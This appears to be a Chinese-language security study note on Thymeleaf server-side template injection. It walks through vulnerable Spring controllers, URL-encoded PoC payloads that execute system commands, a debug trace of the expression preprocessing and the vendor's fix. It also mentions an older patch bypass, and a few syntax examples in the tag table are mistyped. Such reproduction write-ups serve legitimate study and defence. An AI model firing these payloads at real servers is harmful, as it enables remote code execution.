




# Thymeleaf 模板注入

`Thymeleaf`是用来开发Web和独立环境项目的现代服务器端Java模板引擎，既适用于 web 环境，也适用于独立环境，比较适合当前的人员分工问题。其能够处理HTML、XML、JavaScript、CSS 甚至纯文本。提供了一种优雅且高度可维护的模板创建方法，可以直接在浏览器中正确显示，也可以作为静态原型方便开发团队协作。

**特点**
- **动静结合：** TThymeleaf使用html通过一些特定标签语法代表其含义，但并未破坏html结构，即使无网络、不通过后端渲染也能在浏览器成功打开，当有数据返回到页面时，Thymeleaf 标签会动态地替换掉静态内容，使页面动态显示，大大方便界面的测试和修改。
- **开箱即用：** Thymeleaf提供标准和spring标准两种方言，可以直接套用模板实现JSTL、 OGNL表达式效果
- **与SpringBoot完美整合**，SpringBoot提供了Thymeleaf的默认配置，并且为Thymeleaf设置了视图解析器，我们可以像操作jsp一样来操作Thymeleaf。除了模板语法外，代码几乎没有任何区别

## 基础语法

**标识**

为了区分Thymeleaf与普通HTML页面，Thymeleaf的html要增加如下标识：
```html
<html xmlns:th="http://www.thymeleaf.org">
```

**标签**

标签|作用|示例
-|-|-
th:id|替换id|`<input th:id="${user.id}"/>`
th:text|文本替换|`<p text:="${user.name}">bigsai</p>`
th:utext|支持html的文本替换|`<p utext:="${htmlcontent}">content</p>`
th:object|替换对象|`<div th:object="${user}"></div>`
th:value|替换值|`<input th:value="${user.name}" >`
th:each|迭代|`<tr th:each="student:${user}" >`
th:href|替换超链接|`<a th:href="@{index.html}">超链接</a>`
th:src|替换资源|`<script type="text/javascript" th:src="@{index.js}"></script>`
th:fragment|片段|`<div th:fragment="header">header content</div>`

!!! tips
    `th:text`指令出于安全考虑，会把表达式读取到的值进行处理，防止html的注入。例如，`<p>你好</p>`将会被格式化输出为`$lt;p$gt;你好$lt;/p$lt`;。如果想要不进行格式化输出，而是要输出原始内容，则使用`th:utext`来代替.

**链接**
`@{}` 用于引用资源，可以是static目录下的文件，也可以是网络资源

```html
<link rel="stylesheet" th:href="@{index.css}">
<script type="text/javascript" th:src="@{index.js}"></script>
<a th:href="@{index.html}">超链接</a>
```

**变量**

`${}` 用于引用变量

注意取 list 中的值需要用 `th:each` 进行枚举

```html
<tr th:each="item:${userlist}">
        <td th:text="${item}"></td>
</tr>
```

`*{}` 为选择变量表达式，对选定的对象而不是整个上下文进行求值

```html
<div th:object="${user}">
    <p>Name: <span th:text="*{name}">赛</span>.</p>
    <p>Age: <span th:text="*{age}">18</span>.</p>
    <p>Detail: <span th:text="*{detail}">好好学习</span>.</p>
</div>
```

**消息**

`#{}` 用于引用外部消息，通俗而言就是引用配置文件中的值

**片段**

`~{}` 用于引用片段，可以引用其它页面中的部分代码

```html

<!--template/footer.html-->
<div th:fragment="copy">
      © 2011 The Good Thymes Virtual Grocery
</div>

<!--在其它页面引用-->
<div th:replace="footer :: copy"></div>
```

具体语法如下：

- `~{templatename::selector}`，会在`/WEB-INF/templates/`目录下寻找名为templatename的模版中定义的fragment，如上面的~{footer :: copy}
- `~{templatename}`，引用整个templatename模版文件作为fragment
- `~{::selector}` 或 `~{this::selector}`，引用来自同一模版文件名为selector的fragmnt

**预处理表达式**

`__${expression}__` 预处理是在正常表达式之前完成的表达式的执行，允许修改最终将执行的表达式。

预处理也可以解析执行表达式，也就是说找到一个可以控制预处理表达式的地方，让其解析执行我们的payload即可达到任意代码执行

## 漏洞复现

!!! tips "可用版本"

    Thymeleaf <= 3.0.11

### templatename

```java title="漏洞代码"
@GetMapping("/path")
public String path(@RequestParam String lang) {
    return "user/" + lang + "/welcome"; //template path is tainted
}
```

```title="PoC"
/path?lang=__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22calc%22).getInputStream()).next()%7d__::.x
```

通过`__${}__::.x`构造表达式由Thymeleaf去执行



### selector

可控点变为了selector位置

```java title="漏洞代码"
@GetMapping("/fragment")
public String fragment(@RequestParam String section) {
    return "welcome :: " + section; //fragment is tainted
}
```

```title="PoC"
/fragment?section=__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("calc").getInputStream()).next()%7d__::.x
```

!!! tips
    没有 `::.x` 也能触发执行



### URI path

```java title="漏洞代码"
@GetMapping("/doc/{document}")
public void getDocument(@PathVariable String document) {
    log.info("Retrieving " + document);
    //returns void, so view name is taken from URI
}
```

```title="PoC"
/doc/__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22open%20-a%20calculator%22).getInputStream()).next()%7d__::.x
```



### 调试分析

调试前面部分SpringMVC DispatcherServlet流程参考：[SpringMVC 视图渲染流程](/CS/PL/Java/Spring/springmvc/#_2)

进入 `ThymeleafView#render` 方法

```java title="ThymeleafView"
    public void render(Map<String, ?> model, HttpServletRequest request, HttpServletResponse response) throws Exception {
        this.renderFragment(this.markupSelectors, model, request, response);
    }

    protected void renderFragment(Set<String> markupSelectorsToRender, Map<String, ?> model, HttpServletRequest request, HttpServletResponse response) throws Exception {
        ServletContext servletContext = this.getServletContext();
        String viewTemplateName = this.getTemplateName();
        ISpringTemplateEngine viewTemplateEngine = this.getTemplateEngine();
        if (viewTemplateName == null) {
            throw new IllegalArgumentException("Property 'templateName' is required");
        } else if (this.getLocale() == null) {
            throw new IllegalArgumentException("Property 'locale' is required");
        } else if (viewTemplateEngine == null) {
            throw new IllegalArgumentException("Property 'templateEngine' is required");
        } else {
            ...

            // 漏洞关键
            if (!viewTemplateName.contains("::"))
            {
                templateName = viewTemplateName;
                markupSelectors = null;
            } else {
                IStandardExpressionParser parser = StandardExpressions.getExpressionParser(configuration);

                FragmentExpression fragmentExpression;
                try {
                    fragmentExpression = (FragmentExpression)parser.parseExpression(context, "~{" + viewTemplateName + "}");
                } catch (TemplateProcessingException var25) {
                    throw new IllegalArgumentException("Invalid template name specification: '" + viewTemplateName + "'");
                }
                ...
            }
        }
    }
```

在判断模板名是否包含`::`时，如果包含则会解析`~{}`表达式，这里就是我们的可控点

跟入`parseExpression`方法，最终会在`org.thymeleaf.standard.expression.StandardExpressionParser#parseExpression`进行解析

```java title="parseExpression"
    static IStandardExpression parseExpression(IExpressionContext context, String input, boolean preprocess) {
        IEngineConfiguration configuration = context.getConfiguration();
        String preprocessedInput = preprocess ? StandardExpressionPreprocessor.preprocess(context, input) : input;
        ...
    }
```

parse会首先对表达式进行预处理

```java title="preprocess"
    static String preprocess(IExpressionContext context, String input) {
        if (input.indexOf(95) == -1) {
            return input;
        } else {
            IStandardExpressionParser expressionParser = StandardExpressions.getExpressionParser(context.getConfiguration());
            if (!(expressionParser instanceof StandardExpressionParser)) {
                return input;
            } else {
                Matcher matcher = PREPROCESS_EVAL_PATTERN.matcher(input);  // 正则匹配预处理表达式
                if (!matcher.find()) {
                    return checkPreprocessingMarkUnescaping(input);
                } else {
                    StringBuilder strBuilder = new StringBuilder(input.length() + 24);
                    int curr = 0;

                    String remaining;
                    do {
                        remaining = checkPreprocessingMarkUnescaping(input.substring(curr, matcher.start(0)));
                        String expressionText = checkPreprocessingMarkUnescaping(matcher.group(1));
                        strBuilder.append(remaining);
                        IStandardExpression expression = StandardExpressionParser.parseExpression(context, expressionText, false);
                        if (expression == null) {
                            return null;
                        }

                        // 执行表达式，漏洞触发
                        Object result = expression.execute(context, StandardExpressionExecutionContext.RESTRICTED);
                        strBuilder.append(result);
                        curr = matcher.end(0);
                    } while(matcher.find());

                    remaining = checkPreprocessingMarkUnescaping(input.substring(curr));
                    strBuilder.append(remaining);
                    return strBuilder.toString().trim();
                }
            }
        }
    }
```
execute最终调用`org.thymeleaf.standard.expression.VariableExpression#executeVariableExpression`使用SpEL执行表达式，触发任意代码执行。

{loading="lazy"}

对于 payload 3 有所不同的是，因为Controller没有return，mv返回值为空，所以viewTemplateName会从uri中获取，因此 uri 中的 `${document}` 会被解析执行

## 修复措施

Thymeleaf 在 util目录下增加了一个名为`SpringStandardExpressionUtils.java`的文件，会对表达式先进行校验，具体代码如下：

??? note "code"

    ```java
    public static boolean containsSpELInstantiationOrStaticOrParam(final String expression) {
        String exp = ExpressionUtils.normalize(expression);
        int explen = exp.length();
        int n = explen;
        int ni = 0;
        int pi = 0;

        while(n-- != 0) {
            char c = exp.charAt(n);
            if (ni >= NEW_LEN || c != NEW_ARRAY[ni] || ni <= 0 && (n + 1 >= explen || !Character.isWhitespace(exp.charAt(n + 1)))) {
                if (ni > 0) {
                    n += ni;
                    ni = 0;
                } else {
                    ni = 0;
                    if (pi >= PARAM_LEN || c != PARAM_ARRAY[pi] || pi <= 0 && (n + 1 >= explen || isSafeIdentifierChar(exp.charAt(n + 1)))) {
                        if (pi > 0) {
                            n += pi;
                            pi = 0;
                        } else {
                            pi = 0;
                            if (c == '(' && n - 1 >= 0 && isPreviousStaticMarker(exp, n)) {
                                return true;
                            }
                        }
                    } else {
                        ++pi;
                        if (pi == PARAM_LEN && (n == 0 || !isSafeIdentifierChar(exp.charAt(n - 1)))) {
                            return true;
                        }
                    }
                }
            } else {
                ++ni;
                if (ni == NEW_LEN && (n == 0 || !isSafeIdentifierChar(exp.charAt(n - 1)))) {
                    return true;
                }
            }
        }

        return false;
    }
    ```

简要概括其检查逻辑为：

1. 检查表达式中是否包含 `new` 关键字
2. `T`要么在最开头，要么跟随一个合法的标识符（[0-9a-zA-Z_]）

!!! tips

    在较早的修复版本中 `T` 的判断为是否和`(`相连，因此可以在`T`后面加上空格绕过，最新版经测试已不可用

## 参考资料

- [spring-view-manipulation](https://github.com/veracode-research/spring-view-manipulation){target="_blank"}
- [Java安全之Thymeleaf SSTI分析](https://www.cnblogs.com/CoLo/p/15507738.html){target="_blank"}